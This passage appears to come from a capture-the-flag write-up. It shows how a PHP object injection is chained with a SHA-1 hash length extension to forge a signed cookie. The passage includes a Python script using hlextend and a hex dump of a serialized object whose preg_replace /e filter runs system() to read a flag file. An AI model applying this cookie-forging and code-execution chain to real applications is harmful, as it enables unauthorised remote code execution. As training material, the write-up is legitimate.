 saved the output to a file (because the serialized objects may contain non printable characters
URL encoded it, and tried to send it to my local server.

The result was the following

![](/images/2014/pico/steveslist/injected.png)

Ok, now i had an object that would allow me to execute arbitrary code on the remote server.

I replaced the payload with a cat /home/daedalus/flag.txt and used the following python snipplet to calculate the hash and produce proper padding

```python
	#!/usr/bin/python

	import sys
	import struct
	import hlextend
	import urllib

	object = ""

	with open("rawcookie.bin", "rb") as f:
		byte = f.read(1)
		while byte != "":
			object += byte
			byte = f.read(1)

	print object

	sha = hlextend.new('sha1')

	meh = sha.extend(object, 'b:1;', 8, '2141b332222df459fd212440824a35e63d37ef69')

	print meh

	print sha.hexdigest()
```

here is an hex representation of the custom_settings cookie without URL encoding

	00000000  0a 4f 3a 34 3a 22 50 6f  73 74 22 3a 33 3a 7b 73  |.O:4:"Post":3:{s|
	00000010  3a 38 3a 22 00 2a 00 74  69 74 6c 65 22 3b 73 3a  |:8:".*.title";s:|
	00000020  34 3a 22 74 65 73 74 22  3b 73 3a 37 3a 22 00 2a  |4:"test";s:7:".*|
	00000030  00 74 65 78 74 22 3b 73  3a 34 3a 22 74 65 73 74  |.text";s:4:"test|
	00000040  22 3b 73 3a 31 30 3a 22  00 2a 00 66 69 6c 74 65  |";s:10:".*.filte|
	00000050  72 73 22 3b 61 3a 31 3a  7b 69 3a 30 3b 4f 3a 36  |rs";a:1:{i:0;O:6|
	00000060  3a 22 46 69 6c 74 65 72  22 3a 32 3a 7b 73 3a 31  |:"Filter":2:{s:1|
	00000070  30 3a 22 00 2a 00 70 61  74 74 65 72 6e 22 3b 73  |0:".*.pattern";s|
	00000080  3a 37 3a 22 2f 74 65 73  74 2f 65 22 3b 73 3a 37  |:7:"/test/e";s:7|
	00000090  3a 22 00 2a 00 72 65 70  6c 22 3b 73 3a 33 38 3a  |:".*.repl";s:38:|
	000000a0  22 73 79 73 74 65 6d 28  27 63 61 74 20 2f 68 6f  |"system('cat /ho|
	000000b0  6d 65 2f 64 61 65 64 61  6c 75 73 2f 66 6c 61 67  |me/daedalus/flag|
	000000c0  2e 74 78 74 27 29 3b 22  3b 7d 7d 7d              |.txt');";}}}|
